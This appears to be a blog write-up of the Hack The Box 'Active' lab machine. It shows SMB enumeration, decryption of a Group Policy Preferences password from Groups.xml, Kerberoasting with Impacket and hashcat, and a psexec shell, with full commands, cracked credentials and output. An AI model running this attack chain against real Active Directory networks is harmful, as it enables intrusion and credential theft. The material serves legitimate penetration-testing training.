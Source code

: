 ```yaml
---
layout: post
title: "HTB-Active"
categories: HTB-Active
---
```


![active](/assets/img/active/active1.png)


Active is a box from TJNull's OSCP list, its one of the HTB 'retired' list judged a bit more challenging than the OSCP
but good practice.
As always, nmap first...


<h3>Nmap</h3>
`nmap -sV -Pn -p- 10.10.10.100 |tee -a act.txt`

```

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-01 23:25:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49170/tcp open  msrpc         Microsoft Windows RPC
49180/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows


```
<hr width="250" size="6">



<h3>SMB Enumeration</h3>

Enum4linux, is a handy smb enumeration tool, the results here give us a springboard for further enumeration.

`enum4linux 10.10.10.100`

```

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Replication     Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
SMB1 disabled -- no workgroup available

```

More interesting information is found...

```

//10.10.10.100/Replication      Mapping: OK, Listing: OK

```


With some shares listed, we can use smbmap and smbclient to invstigate.

`smbmap -H 10.10.10.100` gives us a little more...

![smbmap](/assets/img/active/active-smbmap1.png)

We have the domain name confirmed as `active.htb` and so update the /etc/hosts file accordingly.

Smbclient is a good tool for manually enumerating the server, lets have a look at the Replication share...

`smbclient //10.10.10.100/Replication

![smbclient1](/assets/img/active/active-smbclient1.png)


Further digging leads to a file Groups.xml which we can retrieve with smbclient.

![smbclient-groupsxml](/assets/img/active/active-smbclient-groupsxml.png)

Groups.xml gives us some credentials

```

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

```
userName="active.htb\SVC_TGS"
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

It looks like the account is not disabled, so we can try to use it, if we can decrypt it.


Its a 'group policy preferences' encryption, Kali has a handy tool to decrypt it.
gpp-decrypt works...

```

gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18

```
so...
`active.htb\SVC_TGS`
`GPPstillStandingStrong2k18`

we can try these creds in smbclient to see what else we can find...

`smbclient -U SVC_TGS //10.10.10.100/Users`

We can browse to and 'get' user.txt.

![usertxt](/assets/img/active/active-smbclient-usertxt.png)

<hr width="250" size="6">

Now I need to gain access and escalate privileges.

Fortunately Impacket has a set of tools that can help.

```

<h3>Impacket Tools</h3>


python GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18

```

![getuserspn](/assets/img/active/active-getuserspn.png)

I copy the hash to textfile 'hash' and use hashcat with rockyou.txt to break it.

`hashcat -m 13100 hash.txt -a 0 /home/sassuwunnu/wordlists/rockyou.txt --force`

we get the password `Ticketmaster1968`

Before exploring other avenues of access, I quickly try the creds Administrator/Ticketmaster1968
with smbclient.

```

root@kali:~/HTB/vip/active# smbclient -UAdministrator //10.10.10.100/Users
Enter WORKGROUP\Administrator's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 15:39:20 2018
  ..                                 DR        0  Sat Jul 21 15:39:20 2018
  Administrator                       D        0  Mon Jul 16 11:14:21 2018
  All Users                         DHS        0  Tue Jul 14 06:06:44 2009
  Default                           DHR        0  Tue Jul 14 07:38:21 2009
  Default User                      DHS        0  Tue Jul 14 06:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 05:57:55 2009
  Public                             DR        0  Tue Jul 14 05:57:55 2009
  SVC_TGS                             D        0  Sat Jul 21 16:16:32 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \> cd administrator
smb: \administrator\> cd desktop
smb: \administrator\desktop\> ls
  .                                  DR        0  Mon Jul 30 14:50:10 2018
  ..                                 DR        0  Mon Jul 30 14:50:10 2018
  desktop.ini                       AHS      282  Mon Jul 30 14:50:10 2018
  root.txt                            A       34  Sat Jul 21 16:06:07 2018

                10459647 blocks of size 4096. 4925665 blocks available
smb: \administrator\desktop\> get root.txt
getting file \administrator\desktop\root.txt of size 34 as root.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \administrator\desktop\> exit

```

<hr width="250" size="6">

Looks like we didn't need to actually get a command shell on the target at all to retrieve the
user and root flags.


I can't just leave it there though, got to get a shell...

Again Impacket's tools make it simple in this situation.

```


python ~/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file GLVXXcRb.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service UXYD on 10.10.10.100.....
[*] Starting service UXYD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



:)


